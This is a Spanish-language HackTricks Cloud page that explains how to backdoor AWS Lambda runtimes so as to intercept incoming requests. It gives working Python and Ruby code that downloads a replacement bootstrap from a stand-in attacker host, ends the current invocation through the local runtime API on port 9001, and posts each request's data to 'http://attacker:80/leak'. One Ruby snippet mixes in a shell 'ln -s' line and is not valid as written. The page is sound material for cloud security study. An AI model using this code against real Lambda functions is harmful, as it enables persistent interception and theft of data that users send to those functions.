 # AWS - Robar Solicitudes de Lambda

<details>

<summary><strong>Aprende hacking de AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Introducción <a href="#python-runtime" id="python-runtime"></a>

Este ataque supone que tienes algún tipo de **acceso sobre una Lambda en ejecución**.\
Además, es importante notar que las **invocaciones de Lambda no están completamente separadas entre sí, pero están aisladas**. Podrían ejecutarse, aunque no simultáneamente, en el mismo entorno de ejecución. Con eso en mente, comencemos a diseccionar ese entorno.

### Aislamiento

El aislamiento de Lambda utiliza estos cgroups:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

Como el prefijo 'sandbox' no coincidía con ningún motor de contenedores común (docker, podman, LXD, rkt), podría ser un motor de contenedores propietario, que podría estar utilizando internamente un tiempo de ejecución de contenedores de código abierto como [runC](https://github.com/opencontainers/runc).

### Cómo funcionan las Lambdas  <a href="#python-runtime" id="python-runtime"></a>

Esta parece ser la arquitectura de Lambda de python:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. Un proceso fuera del contenedor, referido como el "**slicer**" en el binario de inicio, envía eventos de invocación al proceso **init** a través de memoria compartida.
2. El proceso init configura un servidor HTTP en el puerto 9001 (codificado de forma fija), con varios puntos finales expuestos:
   1. /2018-06-01/runtime/invocation/**next** – obtener el siguiente evento de invocación
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – devolver la respuesta del manejador para la invocación
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – devolver un error de ejecución
3. En `bootstrap.py` el siguiente bucle **consulta al proceso init por un nuevo evento**, y luego **llama a la función del usuario** para manejarlo (aquí, el manejador de solicitudes que subiste se ejecuta).\


<figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. La **respuesta del manejador es entonces enviada de vuelta al proceso init** a través de uno de los siguientes puntos finales:
   1. `/{invoke-id}/response` – si el manejador del usuario se ejecutó con éxito
   2. `/{invoke-id}/error` – si se produjo una excepción durante el manejo de la invocación

## Resumen de la Técnica <a href="#python-runtime" id="python-runtime"></a>

Es posible **sustituir el script de arranque** con código malicioso para poder **interceptar datos** enviados a la función Lambda.\
Nota que **otros motores en otros lenguajes** tienen otro **script de arranque** escrito en ese lenguaje, por lo que esto se puede hacer **también en otras lambdas que usan otros lenguajes**, no solo en python.

## Python <a href="#python-runtime" id="python-runtime"></a>

Desde la lambda, descarga **`/var/runtime/bootstrap.py`** (o simplemente inicia **tu propia lambda** y obténlo) y añade el backdoor que estará filtrando todos los datos enviados a Lambda. Solo necesitas añadir un par de líneas como:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Reemplazando el Tiempo de Ejecución

Ahora con el nuevo **`bootstrap.py` creado**, es posible **descargarlo**, **terminar la invocación de lambda actual** y ejecutarlo para **reemplazar** el legítimo:
```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```
O también puedes usar [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), que terminará la invocación como se hizo anteriormente, ejecutará el nuevo bootstrap y exfiltrará la información.

{% hint style="warning" %}
Si una función lambda no se utiliza durante 5-15 minutos, se apagará y todos los cambios se perderán la próxima vez que se invoque.
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

En ruby, el archivo que quieres manipular es **`/var/runtime/lib/runtime.rb`** (obténlo del sistema o ejecutando tu propia lambda).

Agregar una puerta trasera es tan simple como se hizo en la versión de python:
```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin
context = lambdaContext.new(raw_request)
uri = URI('http://attacker:80/leak')
Net::HTTP.post(uri,JSON.generate(request))
[...]
```
Entonces, solo necesitas hacer lo que hiciste en la versión de python con solo un cambio:

* **Descargar el backdoor en un directorio**
* **Symlink** `/var/runtime/lib/*` con el directorio donde está el backdoor
* Finalizar la invocación actual de lambda
```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```
## Referencias

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
